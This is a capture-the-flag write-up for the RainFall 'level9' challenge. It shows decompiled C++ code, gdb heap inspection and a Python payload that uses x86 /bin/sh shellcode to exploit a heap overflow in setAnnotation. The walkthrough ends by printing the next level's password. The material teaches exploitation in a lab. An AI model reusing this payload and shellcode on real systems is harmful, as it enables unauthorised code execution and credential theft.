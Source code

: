 # Level9
Level9 requires us to exploit a CPP binary.

# Tools

# Walkthrough

The home of level9 contains a CPP binary, `level9`. We decompile it with dogbolt and get a few interesting elements.
First, there is a main function:
```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
	N *v3; // ebx
	N *v4; // ebx
	N *v6; // [esp+1Ch] [ebp-8h]

	if ( argc <= 1 )
	_exit(1);
	v3 = (N *)operator new(0x6Cu);
	N::N(v3, 5);
	v6 = v3;
	v4 = (N *)operator new(0x6Cu);
	N::N(v4, 6);
	N::setAnnotation(v6, (char *)argv[1]);
	return (**(int (__cdecl ***)(N *, N *))v4)(v4, v6);
}
```
The `operator new` will allocated raw memory on the heap, `0x6C` = 108.

Where N is a CPP class. The `setAnnotation` method:
```cpp
void *__cdecl N::setAnnotation(N *this, char *s)
{
	size_t v2; // eax

	v2 = strlen(s);
	return memcpy((char *)this + 4, s, v2);
}
```
The `memcpy` function copies the content of `argv[2]`.
As we allocated 108 bytes, and we `memcpy` writes to the allocated space without checking the bounds, we can try to heap buffer overflow and hijack process execution flow by overwriting the return address.

Let's exploit now.
```
   0x08048674 <+128>:	mov    DWORD PTR [esp],eax
   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:	mov    eax,DWORD PTR [esp+0x10]
   0x08048680 <+140>:	mov    eax,DWORD PTR [eax]
```
We break at `0x0804867c`, the return address of `setAnnotation`. 
```
(gdb) b *0x0804867c
Breakpoint 1 at 0x804867c
(gdb) r AAAAAAAAAAAAAAAAAAAA
Starting program: /home/user/level9/level9 AAAAAAAAAAAAAAAAAAAA
```
We run the payload with many `A`s to find the start of the buffer.

Get the address of the heap with `info proc mappings`
```
Breakpoint 1, 0x0804867c in main ()
(gdb) info proc mappings
process 4426
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/user/level9/level9
	 0x8049000  0x804a000     0x1000        0x0 /home/user/level9/level9
	 0x804a000  0x806b000    0x21000        0x0 [heap]
	0xb7cfa000 0xb7cfc000     0x2000        0x0
	0xb7cfc000 0xb7d18000    0x1c000        0x0 /lib/i386-linux-gnu/libgcc_s.so.1
	0xb7d18000 0xb7d19000     0x1000    0x1b000 /lib/i386-linux-gnu/libgcc_s.so.1
	0xb7d19000 0xb7d1a000     0x1000    0x1c000 /lib/i386-linux-gnu/libgcc_s.so.1
	0xb7d1a000 0xb7d44000    0x2a000        0x0 /lib/i386-linux-gnu/libm-2.15.so
	0xb7d44000 0xb7d45000     0x1000    0x29000 /lib/i386-linux-gnu/libm-2.15.so
	0xb7d45000 0xb7d46000     0x1000    0x2a000 /lib/i386-linux-gnu/libm-2.15.so
	0xb7d46000 0xb7d47000     0x1000        0x0
	0xb7d47000 0xb7eea000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
	0xb7eea000 0xb7eec000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7eec000 0xb7eed000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7eed000 0xb7ef0000     0x3000        0x0
	0xb7ef0000 0xb7fc8000    0xd8000        0x0 /usr/lib/i386-linux-gnu/libstdc++.so.6.0.16
	0xb7fc8000 0xb7fc9000     0x1000    0xd8000 /usr/lib/i386-linux-gnu/libstdc++.so.6.0.16
	0xb7fc9000 0xb7fcd000     0x4000    0xd8000 /usr/lib/i386-linux-gnu/libstdc++.so.6.0.16
	0xb7fcd000 0xb7fce000     0x1000    0xdc000 /usr/lib/i386-linux-gnu/libstdc++.so.6.0.16
	0xb7fce000 0xb7fd5000     0x7000        0x0
	0xb7fdb000 0xb7fdd000     0x2000        0x0
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
```
The address is `0x804a000`.
We get the first 20 double words, and see our `A` (`A` = `0x41`).
The start of the buffer is `0x804a000` + 4 + 4 + 4 = `0x804a00c`.
```
(gdb) x/20dx 0x804a000
0x804a000:	0x00000000	0x00000071	0x08048848	0x41414141
0x804a010:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a020:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a040:	0x00000000	0x00000000	0x00000000	0x00000000
```

Now, let's confirm that we can make the program crash by segfaulting it (the binary prints nothing if no problem):
```
level9@RainFall:~$ ./level9 $(python -c 'print "A"*108')
level9@RainFall:~$ ./level9 $(python -c 'print "A"*109')
Segmentation fault (core dumped)
```
Contrary to the previous levels, there are no given method to get the access no flag (no `cat`, no `system` call...)
So let's try to input a shellcode, and put the buffer address after the segfault to overwrite the return address.

Content of the heap when overflowing 108:
```
(gdb) x/80wx 0x804a000
0x804a000:	0x00000000	0x00000071	0x08048848	0x41414141
0x804a010:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a020:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a030:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a040:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a050:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a060:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a070:	0x41414141	0x41414141	0x08048848	0x00000000
0x804a080:	0x00000000	0x00000000	0x00000000	0x00000000
```

Content of the heap when overflowing 112:
```
(gdb) x/80wx 0x804a000
0x804a000:	0x00000000	0x00000071	0x08048848	0x41414141
0x804a010:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a020:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a030:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a040:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a050:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a060:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a070:	0x41414141	0x41414141	0x41414141	0x00000000
0x804a080:	0x00000000	0x00000000	0x00000000	0x00000000
```
The return address is overwritten. 

We use that [shellcode](https://shell-storm.org/shellcode/files/shellcode-752.html) from kernel_panik. 

We now have a shellcode, a buffer length, the buffer address and our shell address, let's make our payload:
```py
len_buffer = 108
shell_address=b"\x10\xa0\x04\x08"
shell_code = b"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
return_address = b"\x0c\xa0\x04\x08"

payload = (
	shell_address +
    shell_code +
    b"A" * (len_buffer - len(shell_code) - len(shell_address)) +
    return_address
)

print(payload)
```

We run the binary with our script:
```
level9@RainFall:~$ ./level9 $(python script.py)
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```